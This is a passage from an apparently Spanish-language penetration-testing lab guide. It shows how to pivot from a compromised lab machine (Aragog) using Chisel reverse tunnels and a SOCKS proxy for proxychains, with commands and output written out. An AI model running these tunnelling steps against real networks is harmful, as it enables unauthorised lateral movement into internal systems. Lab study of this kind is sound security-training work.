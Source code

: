 Explicaicón: de diferentes formas hemos transferido el ejecutable *chisel* a la máquina objetivo (Aragog)

Acción: desde máquina atacante, **debe ejecutarse como usuario root o con sudo**

```bash
./chisel server --reverse -p 1234
```

Resultado:

```bash
2025/09/26 00:27:58 server: Reverse tunnelling enabled
2025/09/26 00:27:58 server: Fingerprint 4AUc811HWBv6UJ0UeDpjF7T8J6nOq/g1Jt7DIyDisjE=
2025/09/26 00:27:58 server: Listening on http://0.0.0.0:1234
```

Explicación: ejecutamos un **servidor Chisel** que escucha en el puerto `1234` y permite que clientes remotos **inicien túneles inversos** hacia nosotros, es decir, el tráfico desde el cliente llegará al servidor a través del túnel

Acción:

```bash
./chisel client 192.168.1.66:1234 R:80:10.10.0.129:80
```

Resultado:

```bash
2025/09/26 04:05:48 client: Connecting to ws://192.168.1.66:1234
2025/09/26 04:05:48 client: Connected (Latency 831.354µs)
```

Explicación: nos conectamos desde la máquina objetivo al servidor chisel en `192.168.1.66:1234` y abrimos un túnel inverso que redirige el puerto local 80 del servidor atacante `10.10.0.129` hacia el puerto 80 de nuestra máquina cliente.

Acción: como mediante port-forwarding hemos hecho que el puerto 80 de Nagini corra por nuestro puerto 80 podemos ir a la ruta `localhost` y ver la página web que solo veríamos desde el host 10.10.0.129

```bash
http://localhost/
```

Una opción más avanzada, que requiere de usar y configurar [Proxychains](../Proxy/proxychains_PoC_tutorial.md)

Acción: desde Aragog

```bash
./chisel client 192.168.1.66:1234 R:socks
```

Al lanzar este cliente en nuestra máquina atacante, donde ejecutamos el servidor chisel, obtendremos: `proxy#R:127.0.0.1:1080=>socks: Listening`, es decir, por defecto se abre una comunicación por el puerto 1080. Lo que tendremos que hacer es añadir este host a nuestro archivo de configuración de proxychains

```bash
nano /etc/proxychains 
```
